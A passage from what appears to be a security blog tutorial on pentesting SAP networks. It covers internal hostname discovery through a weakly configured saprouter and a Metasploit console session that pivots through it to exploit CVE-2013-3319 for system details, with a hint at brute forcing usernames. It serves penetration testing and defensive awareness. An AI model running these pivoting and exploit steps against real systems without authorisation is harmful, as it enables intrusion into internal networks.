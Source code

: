 From the output we see that the host “sap” does not exist, but that host sapsrv does, although it is unreachable, and sapsrv2 exists and we can connect to port 3200.

This technique can also be used to try to find other hosts on the network, not SAP related, just try using common hostnames, like smtp, exchange, pdc, bdc, fileshare, intranet, or what other nice hostnames you might have on your bag of tricks

**The last mile**

Now that we have obtained all this information, we know the internal hosts available, what services are allowed, and what protocols we can use to pierce the saprouter, we can actually connect to internal servers, and proceed with our pentest.

Metasploit provides us with an awesome way to saprouter as a proxy, using the Proxies option, thanks to Dave Hartley \([@nmonkee](http://twitter.com/nmonkee)\).

So at this point, we want to start gathering information on the internal sap server we have discovered in host 192.168.1.18. As an example, we'll be using the module [`sap_hostctrl_getcomputersystem`](http://www.rapid7.com/db/modules/auxiliary/scanner/sap/sap_hostctrl_getcomputersystem) which exploits CVE-2013-3319 and give us details on the OS the server is running on by querying the SAP Host Control service on port 1128 via an unauthenticated SOAP request. We'll be pivoting through the saprouter, using the proxy support in metasploit:

![](https://blog.rapid7.com/content/images/post-images/33923/image2.jpg)

```text
msf auxiliary(sap_router_portscanner) > use auxiliary/scanner/sap/sap_hostctrl_getcomputersystem 
msf auxiliary(sap_hostctrl_getcomputersystem) > set Proxies sapni:1.2.3.101:3299
Proxies => sapni:1.2.3.101:3299
msf auxiliary(sap_hostctrl_getcomputersystem) > set RHOSTS 192.168.1.18
RHOSTS => 192.168.1.18
msf auxiliary(sap_hostctrl_getcomputersystem) > run

[+] 192.168.1.18:1128 - Information retrieved successfully
[*] 192.168.1.18:1128 - Response stored in /Users/msfusr/.msf4/loot/20140107180827_default_192.168.1.18_sap.getcomputers_386124.xml (XML) and /Users/msfusr/.msf4/loot/20140107180827_default_192.168.1.18_sap.getcomputers_186948.txt (TXT)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

If all went well, you'll have a nice output of the module in the loot containing interesting internal information from the target SAP host \(such as internal usernames you can then try to brute force \).

Pivoting can \(and should!\) be used to run other modules against internal hosts, not only SAP systems!

**Conclusion**

We've seen how it is possible to exploit weak saprouter configurations that can allow access to internal hosts all the way from the Internet, all this using only metasploit's support for pentesting SAP systems.

I hope this article can help shed light on both the risks associated with saprouter deployments, as well as SAP security in general.
